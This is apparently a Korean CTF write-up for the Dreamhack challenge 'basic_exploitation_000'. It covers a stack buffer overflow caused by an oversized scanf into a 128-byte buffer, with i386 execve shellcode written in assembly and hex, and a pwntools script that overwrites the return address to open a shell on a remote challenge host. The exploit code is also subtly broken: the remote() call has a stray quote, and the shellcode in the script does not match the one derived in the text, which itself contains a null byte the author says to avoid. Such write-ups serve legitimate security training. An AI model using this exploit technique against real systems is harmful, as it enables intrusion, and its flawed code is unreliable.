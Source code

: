 ```yaml
---
title: '[Dreamhack] basic_exploitation_000'
description: Dreamhack [Wargame] - basic_exploitation_000
author: juhyeongkim
date: 2024-10-31 3:33:00 +0900
categories: [Dreamhack, Wargame]
tags: [Dreamhack, Wargame, Pwnable]
# toc: false
# comments: false
# math: true
# mermaid: true
# image:
#   path: 
#   lqip: 
#   alt: 
---
```


[문제 링크](https://dreamhack.io/wargame/challenges/2)

## 문제 풀이 방법

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    printf("buf = (%p)\n", buf);
    scanf("%141s", buf);

    return 0;
}
```

위 코드를 보면 `initialize()` 함수에서 `SIGALRM`을 발생시키고 30초가 지나면 `alarm_handler` 함수가 수행되어 `exit(-1);`에 의해 프로그램이 종료된다.  
따라서 30초가 넘어가기 전에 해당 프로그램을 익스플로잇하여 쉘코드를 실행해야한다.

이 문제에서는 scanf 함수의 취약점을 통해 익스플로잇 할 수 있다. buf의 크기는 0x80(128)인데 141 바이트 크기의 string을 입력받고 있기 때문에, `sfp`와 `return address`를 덮어쓸 수 있다.  

```c
|-----------------------|   Low Address
|          buf          |
|          buf          |  <= 0x80
|          buf          |
|-----------------------|
|          SFP          |  <= 0x04
|-----------------------|
|          RET          |  <= 0x04
|-----------------------|   High Address
```

해당 코드에서 `printf("buf = (%p)\n", buf);`를 통해 buf의 주소를 print해주는데,

1. buffer의 주소를 return address에 넣고

2. buffer에는 쉘코드를 삽입하면 쉘을 얻을 수 있다.

<br>

## 쉘코드 작성

우리가 작성하고자 하는 쉘 코드는 `execve('bin/sh', 0, 0);`을 실행하여 쉘을 얻는 코드이다. 내용은 아래와 같다.

참고로 문제의 해당 실행 환경이 **i386(x86)** 이므로 32bit에 맞춰 어셈블리 코드를 작성해야한다. 

```
section .text
global _start

_start:
    xor eax,eax       ; 뒤에서 execve() 콜을 위해 eax를 0으로 초기화해주는 부분 (대부분 0이 들어있기 때문에 필수적이지는 않지만 권장)
    push 0x68732f     ; push 0x0068732f와 같다.
    push 0x6e69622f   ; 여기서 두번째 push때 4바이트 크기의 값이 아닌 3바이트 크기의 값이 push되면 끝에 0x00(Null String)이 추가되어 String이 이어지지 않고 끊기게 되니까 주의하자 ex) push 0x69622f
    mov ebx, esp      ; arg0 : ebx = 'bin/sh'
    xor ecx, ecx      ; arg1 : ecx = 0
    xor edx, edx      ; arg2 : edx = 0
    mov al, 0x8       ; mov eax, 0x8도 가능하지만, 더 효율적인 작업을 위해 al에 0x8 대입
    inc al            ; eax = 0x9
    inc al            ; eax = 0xa
    inc al            ; eax = 0xb
    int 0x80          ; execve call 발생
```

#### 1.

`eax`를 0으로 초기화 하는 이유는 뒤에서 eax가 아닌 `al`에 0x8을 대입하는데, al은 1바이트 공간이기 때문에 혹시라도 만약 al 상위 바이트가 0으로 초기화되어 있지 않으면 0x8이 아닌 다른 값으로 eax가 인식되기 때문에 `xor eax, eax`를 통해 0으로 초기화시켜준다.  
(만약 `mov al, 0x8`이 아닌 `mov eax, 0x8` 이라면 초기화할 필요 X)

#### 2.

이후 push를 통해 esp에 값을 대입하는데 무조건 처음 push할 때, 나머지를 가져가고 이후 push에서는 4바이트 단위로만 push 해야 중간에 `0x00(NULL String)`이 삽입되지 않는다.

#### 3.

32bit에서는 system call의 인자가 `rdi, rsi, rdx, ...` 순이 아닌 `ebx, ecx, edx, ...' 순이기 때문에 ebx에 esp값을 대입해주고 나머지 인자를 0으로 초기화시켜준다.

#### 4.

32bit에서 execve의 system call 번호(eax 값)는 `0xb`인데, ASCII 값에서 `0xb`는 개행문자이므로, 이를 scanf에 입력하면 개행문자까지만 값을 받고 뒤의 값을 버리게 되기 때문에, 개행문자가 아닌 `mov al, 0x8`이후 `inc al`을 3번하여 eax에 `0xb`를 대입해야한다. 

![](https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbaFBgG%2FbtrUtG8jkdw%2FWx912dGg3GcIdDJL7ROEi1%2Fimg.png)

#### 5.

32bit에서 system call은 `syscall`이 아닌 `int 0x80`으로 수행한다.

#### 6.

이후 쉘코드를 얻어오면 다음 값을 갖는다.

```
\x31\xc0\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80
```

<br>

## 익스플로잇 코드 작성

1. 프로그램 실행에서 buf의 주소를 print해주는데, 이 주소를 받아와서 return address에 삽입하기 위해 `buf_address`에 기록한다.    
여기서, `p.recvuntil(b'buf = (')`를 통해 받은 값은 String 값인데, 주소는 String 값이 아닌 정수 값으로 해석되기 때문에 이 String 값을 정수값으로 변경해준다. (String을 ASCII 값에 따라 정수로 해석하는 것이 아닌 정수 그 자체로 해석)
그리고 0xnnnnnnnn까지만 받아야 하므로 10byte만 받는다.

2. buf에는 shellcode를 입력하고, shellcode를 입력하고 **남은 buf 공간과**, **sfp**공간은 아무 값으로 채워서 payload에 전달해준다. (buf space + sfp space = 0x84)

3. 이후 return_address에 우리가 저장한 `buf_address`를 little endian byte string 배열로 packing해서 payload에 전달한다.

4. 공격 수행 후 쉘을 획득하면 `ls`와 `cat` 명령어를 통해 flag를 읽어온다.

익스플로잇 코드는 아래와 같다.

```py
from pwn import *

context.arch = "i386"
p = remote("host3.dreamhack.games", 21235")

p.recvuntil(b'buf = (')
buf_address = int(p.recv(10), 16) # 10byte만큼 recv후 받은 값을 16진수로 해석하여 buf_address에 저장

shellcode = b'\x31\xc0\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb8\x08\x00\x00\x00\x40\x40\x40\xcd\x80'

payload = shellcode + b'a'*(0x84-len(shellcode)) + p32(buf_address)

p.sendline(payload)

p.interactive()
```